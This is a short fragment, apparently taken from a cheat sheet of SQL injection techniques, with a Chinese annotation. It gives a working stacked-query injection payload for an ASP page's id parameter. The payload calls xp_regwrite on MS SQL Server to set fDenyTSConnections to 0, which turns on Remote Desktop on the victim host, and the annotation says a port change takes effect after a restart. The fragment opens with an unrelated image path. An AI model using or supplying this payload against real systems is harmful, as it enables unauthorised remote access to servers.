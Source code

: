 	.asp?id=100;exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;--
	注：
	修改连接端口重启后生效
